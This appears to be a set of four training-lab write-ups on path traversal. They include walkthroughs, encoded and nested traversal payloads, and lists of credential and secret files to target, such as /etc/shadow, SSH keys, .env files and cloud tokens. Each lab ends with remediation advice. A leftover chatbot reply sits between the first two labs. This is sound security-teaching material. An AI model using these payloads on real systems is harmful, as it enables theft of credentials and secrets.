




# 🔥Lab-1 File Path Traversal – Full RAW Markdown Write-Up  
(Exact lab-style format + headings + symbols + screenshot placeholder)

---

## 1. 📝 One-Line Summary
Path Traversal allows an attacker to read arbitrary files on the server by escaping the intended directory using sequences like `../`.

---

## 2. ❓ What Is This Vulnerability?
Path traversal happens when:

1. The application loads a file based on **user input**.  
2. It **does not sanitize** path components.  
3. Attacker injects `../` to climb directories.  
4. Backend reads unintended files (e.g., `/etc/passwd`).  

Common vulnerable parameter:  
`filename=report.pdf` → attacker changes to → `filename=../../../../etc/passwd`

---

## 3. 🎯 Why This Matters
A single file inclusion can lead to:

- Source code disclosure  
- Credential leaks  
- SSH key theft  
- Exposing cloud environment variables  
- Reading internal configuration files  
- Privilege escalation  

Impact = **Critical**, especially when sensitive files exist.

---

## 4. 🔍 Real-World Scenarios

### • Linux Password File Exposure  
`../../../../etc/passwd`

### • Apache Config Leak  
`../../../etc/apache2/apache2.conf`

### • Windows Credential Theft  
`..\..\..\windows\win.ini`

### • Source Code Exposure  
`../../../var/www/app/config.php`

If logs are accessible, you can leak credentials, JWT secrets, DB passwords.

---

## 5. 🏗️ Step-By-Step Lab Walkthrough

### ✔ Step 1 — Visit Product Image Page
The lab loads images dynamically:  
`/image?filename=38.jpg`

### ✔ Step 2 — Send the request to Repeater
```
GET /image?filename=38.jpg HTTP/2
Host: LAB-ID.web-security-academy.net
```

### ✔ Step 3 — Replace filename with traversal payload
```
GET /image?filename=../../../etc/passwd HTTP/2
```

### ✔ Step 4 — Send the request  
If vulnerable, server responds with the content of `/etc/passwd`.

### ✔ Step 5 — Confirm by checking markers  
Look for lines like:
```
root:x:0:0:root:/root:/bin/bash
```

### ✔ Step 6 — Lab is solved once `/etc/passwd` is retrieved.

---

## 6. 📸 Screenshot 

**Screenshot of Burp Repeater showing fetched /etc/passwd**



---

## 7. 🧲 Common High-Value Files to Target

### 🟦 Linux Targets
- `/etc/passwd`  
- `/etc/shadow` (if readable)  
- `/var/www/html/config.php`  
- `/home/*/.ssh/id_rsa`

### 🟥 Windows Targets
- `C:\Windows\win.ini`  
- `C:\Windows\System32\drivers\etc\hosts`  
- `C:\Users\Administrator\.ssh\id_rsa`

### 🟨 App-Level Targets
- `.env`  
- `config.json`  
- `database.yml`  

---

## 8. 🔗 Multi-Chain Attack Possibilities
- Path Traversal → Read PHP config → DB creds → DB takeover  
- Path Traversal → Read SSH keys → Remote shell  
- Path Traversal → Leak JWT secret → Account takeover  
- Path Traversal → Source code disclosure → RCE via hidden endpoints  

---

## 9. 🛡️ Remediation
- Canonicalize + normalize paths  
- Enforce strict allowlisting of filenames  
- Strip sequences like `../` and `..\`  
- Disable direct filesystem access where possible  
- Use per-user virtual file systems or UUID-based filenames  

---

## 10. 📌 Final Summary
Path Traversal occurs when user input directly affects filesystem paths without sanitization. By replacing filenames with traversal sequences (`../`), attackers can read sensitive files like `/etc/passwd`, leak secrets, escalate privileges, or even achieve full server compromise.

---

Understood.
Here is your FULL RAW MARKDOWN SOURCE WRITE-UP, identical format, same headings, same styling, same structure, with 1 screenshot placeholder, NOT rendered, symbols visible, exactly like your Blind SSRF lab.

Everything is inside a code block so nothing renders.


---

# 🔥Lab-2 Path Traversal – Obstacles & Bypass Techniques (RAW Markdown Write-Up)

---

## 1. 📝 One-Line Summary
This lab shows how weak filters fail to block Path Traversal and how attackers bypass them using absolute paths like **/etc/passwd**, encoded traversal, double-encoding, and mixed separators.

---

## 2. ❓ What Is This Vulnerability?
The server tries to block traversal sequences such as:

../ ..\

But the filters are incomplete.

If the attacker sends an **absolute path**, like:

/etc/passwd

the server builds:

base_path + "/etc/passwd"

Filesystem resolves it → attacker reads **/etc/passwd**.

This completely bypasses traversal filtering.

---

## 3. 🎯 Why This Matters
Poor “../ removal” filters DO NOT prevent Path Traversal.

This leads to:

- Leakage of sensitive system files  
- Exposure of application secrets  
- Database compromise  
- SSH key theft  
- Cloud credential theft  
- Log poisoning → RCE  

Impact = **Critical**

---

## 4. 🔍 Real-World Scenarios
### • Absolute Path Bypass  
Used when developers only block "../".

### • Encoded Traversal  
URL-encoded or double-encoded sequences bypass filters.

### • Log Poisoning + Traversal  
Load poisoned log → execute payload.

### • Read Cloud Secrets  
/.env → AWS keys → cloud takeover.

---

## 5. 🏗️ Step-By-Step Lab Walkthrough

### ✔ Step 1 — Open any product page  
It loads an image using:

/image?filename=5.png

### ✔ Step 2 — Send request to Repeater  
Look for:

filename=5.png

### ✔ Step 3 — Try normal traversal (blocked)

filename=../../../etc/passwd

Server blocks it → filter activates.

### ✔ Step 4 — Use bypass: Absolute Path  
Replace with:

filename=/etc/passwd

### ✔ Step 5 — Send request  
Server returns the contents of:

/etc/passwd

Lab solved.

---

## 6. 📸 Screenshot (Insert Here)

**Screenshot showing /etc/passwd being returned after using absolute path bypass**



---

## 7. 🧲 High-Value Bypass Techniques

### 🟦 Absolute Path Bypass

/etc/passwd /etc/shadow /var/www/html/config.php /home/admin/.ssh/id_rsa

### 🟥 Encoded Traversal

..%2f..%2fetc/passwd %2e%2e/%2e%2e/etc/passwd

### 🟨 Double Encoding

%252e%252e%252fetc%252fpasswd

### 🟩 Overlong UTF-8

%c0%ae%c0%ae/

### 🟦 Dot-Dot Tricks

....//....//etc/passwd ..../..../etc/passwd

### 🟥 Null Byte Injection

../../../etc/passwd%00.png

### 🟨 Mixed Separators (Windows)

......\Windows\win.ini ..%5c..%5cWindows\win.ini

---

## 8. 🔗 Multi-Chain Attack Possibilities

### 🔥 Chain 1 — Filter Bypass → Config File → DB Takeover
1. Use absolute path  
2. Read `/var/www/html/config.php`  
3. Extract DB password  
4. Log into DB  
5. Dump users  

---

### 🔥 Chain 2 — Read SSH Keys → Full Server Control
1. Read `/home/ubuntu/.ssh/id_rsa`  
2. SSH into server  
3. Full system compromise  

---

### 🔥 Chain 3 — Logs → Poisoned Logs → RCE
1. Read `/var/log/nginx/access.log`  
2. Send malicious User-Agent  
3. Load log via traversal  
4. Code executes → Webshell  

---

### 🔥 Chain 4 — .env Files → Cloud Keys → AWS Takeover
1. Read `/.env`  
2. Steal AWS keys  
3. S3 takeover  
4. Full cloud access  

---

## 9. 🛡️ Remediation
- Canonicalize + normalize path before checking  
- After decoding, block:
  - `../`
  - `..\`
  - `%2e%2e`
  - `%5c`
- Use strict allowlisting of filenames  
- Never append user input directly to file paths  
- Restrict filesystem permissions  

---

## 10. 📌 Final Summary
This lab demonstrates how weak path traversal filters are easily bypassed using **absolute paths**, encoding tricks, and mixed traversal sequences. Reading `/etc/passwd` confirms the vulnerability and completes the lab.

---

# 🔥Lab-3 Path Traversal – Filter Bypass (Nested Traversal)  
## 🔹 One‑Line Summary  
Bypass naive ../ filtering using nested traversal sequences like `....//` to escape directories and read sensitive system files such as `/etc/passwd`.

---

# ❓ What Is This Topic?

**Path Traversal (Directory Traversal)** is a vulnerability where the application improperly handles user-supplied file paths.  
Attackers manipulate paths using traversal sequences (`../`, `..\`, encoded forms, or obfuscated patterns) to break out of the intended directory and read arbitrary files from the server.

This lab focuses on **filter bypass** using **nested traversal patterns** such as:

```
....//....//....//etc/passwd
```

---

# 💡 Why This Matters

Path Traversal is one of the most dangerous web vulnerabilities because it allows attackers to:

- 🔓 Escape internal directories  
- 📂 Read system files  
- 🔐 Leak credentials  
- 💾 Access config files  
- 🧩 Steal cloud/API keys  
- 🛠 Understand server-side code  
- 🧨 Chain attacks into full RCE if file upload or writable folders exist  

Even if developers implement filters, **naive sanitization is easy to bypass** with nested traversal like `....//`.

---

# 🌍 Real‑World Scenarios

### **Scenario 1 — DB Credentials Theft**
Read:
```
/var/www/html/config.php
```
→ Extract DB user/pass  
→ Login to phpMyAdmin / internal panel  
→ Account takeover

---

### **Scenario 2 — SSH Private Key Exfiltration**
```
../../../home/admin/.ssh/id_rsa
```
→ Private key stolen  
→ Lateral movement inside network

---

### **Scenario 3 — Cloud Credentials Leak (.env)**
```
/home/www/.env
```
Contains:
```
AWS_ACCESS_KEY_ID=
AWS_SECRET_ACCESS_KEY=
```
→ AWS account takeover

---

### **Scenario 4 — Writable Directory → RCE**
1. Upload `.php`  
2. Access it with traversal  
3. Remote Code Execution achieved

---

### **Scenario 5 — Log Poisoning → Webshell**
1. Inject PHP in User-Agent  
2. Read logs using traversal  
3. Logs execute → RCE  

---

### **Scenario 6 — Container Escape Enumeration**
```
/proc/self/cgroup  
/proc/self/mounts
```

---

### **Scenario 7 — JWT Secret Theft**
```
/var/www/html/.env
```
→ Forge admin JWT tokens → admin takeover

---

# 🧪 Common Nested Traversal Payloads

### **Direct**
```
../../etc/passwd
```

### **Encoded**
```
..%2f..%2fetc%2fpasswd
```

### **Double Encoded**
```
%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

### **Nested Filter Bypass (THIS LAB)**
```
....//....//....//etc/passwd
```

Developers often strip only simple patterns like:
```
../  
..\
```
But `....//` becomes valid traversal *after* sanitization.

---

# 🎯 High‑Value Files to Target

### **Linux**
```
/etc/passwd  
/etc/shadow  
/etc/hostname  
/etc/hosts
```

### **Application**
```
config.php  
.env  
settings.py
```

### **Credentials**
```
/home/admin/.ssh/id_rsa  
/root/.bash_history
```

### **Cloud**
```
~/.aws/credentials  
/var/run/secrets/kubernetes.io/serviceaccount/token
```

---

# 🔍 Methodology (Pentester Checklist)

Whenever you see parameters like:

```
file=
image=
path=
filename=
download=
```

Test using levels:

### ⭐ **Level 1 — Direct Traversal**
```
../../etc/passwd
```

### ⭐ **Level 2 — Encoded**
```
..%2f..%2fetc%2fpasswd
```

### ⭐ **Level 3 — Double Encoded**
```
%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

### ⭐ **Level 4 — Filter Bypass (Nested Traversal)**
```
....//....//etc/passwd
```

---

# 🧭 LAB WALKTHROUGH (Exact Steps)

### **Step 1 — Identify the vulnerable parameter**
```
GET /image?filename=5.png
```

### **Step 2 — Send to Repeater**  
Check server behavior.

### **Step 3 — Try direct traversal**
```
filename=../../../etc/passwd
```
❌ Blocked — server removes `../`.

### **Step 4 — Use nested traversal bypass**
```
filename=....//....//....//etc/passwd
```

### **Step 5 — Verify successful file read**  
You receive `/etc/passwd` output:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```

🎉 **Lab solved.**

---

# 📸 Evidence (Screenshot)



---

# 🛡 Remediation

✔ Normalize all paths before usage  
✔ Strict allowlist: only permit filenames like `^[a-zA-Z0-9._-]+$`  
✔ NEVER concatenate raw input into file paths  
✔ Block encoded/obfuscated traversal attempts  
✔ Deny absolute paths (`/etc/passwd`)  
✔ Use chroot jail or restricted FS permissions  
✔ Run server as non‑privileged user  
✔ Log abnormal file access attempts  

---

# 🔥Lab-4 **DOUBLE URL ENCODING TRAVERSAL — WRITE-UP**

---

## 📌 **ONE-LINE SUMMARY**
Double URL Encoding was used to bypass path-traversal filters and access restricted server files such as `/etc/passwd`.

---

## 📘 **WHAT IS DOUBLE URL ENCODING?**
Double URL Encoding is when characters like `.` and `/` are encoded twice:
- First encode → `%2e`
- Second encode → `%252e`

Servers often decode only once, allowing traversal sequences to slip through.

---

## 🎯 **WHY THIS MATTERS**
- Bypasses WAF rules  
- Bypasses blacklist filters  
- Allows reading sensitive files  
- Common in poorly validated file-fetch endpoints  
- Attackers can escalate to full system compromise

---

## 🌍 **REAL-WORLD SCENARIOS**
- 🔸 Old PHP backends decoding only once  
- 🔸 Node.js servers using decodeURIComponent twice  
- 🔸 Java File() API resolving paths even after filtering  
- 🔸 Legacy CMS plugins vulnerable to traversal bypass  
- 🔸 CTF & Bug Bounty endpoints fetching internal resources

---

## 💥 **COMMON DOUBLE-ENCODED PAYLOADS**
```
%252e%252e%252f
%252e%252e%255c
..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252fwindows/win.ini
../../%252e%252e%252fetc/passwd
```

---

## 🏴‍☠️ **HIGH-VALUE ENDPOINTS ATTACKERS TARGET**
```
/etc/passwd
/etc/shadow
/var/www/html/config.php
/var/www/html/.env
/windows/win.ini
/app/logs/error.log
/var/lib/mysql/*.frm
```

---

## 🧪 **LAB WALKTHROUGH**

### **🔹 Step 1 — Identify vulnerable endpoint**
```
GET /image?file=cat.png
```

### **🔹 Step 2 — Test single traversal (BLOCKED)**
```
GET /image?file=../../etc/passwd
→ 403 Forbidden
```

### **🔹 Step 3 — Apply double-encoded traversal**
Payload:
```
%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

### **🔹 Step 4 — Server decodes ONCE → sees %2e%2e/**
### **🔹 Step 5 — Server decodes SECOND time internally → becomes ../**
### **🔹 Step 6 — File successfully read**
Lab is solved.

---

## 📸 **EVIDENCE (SCREENSHOTS)**



---

## 🛡 **REMEDIATION**
- ❌ Do NOT rely on blacklists  
- ❌ Do NOT decode user input automatically  
- ✔ Apply **canonicalization** before validation  
- ✔ Restrict file access to allow-listed directories only  
- ✔ Use framework-level safe file-path handlers  
- ✔ Apply WAF rules for encoded traversal attempts  

---
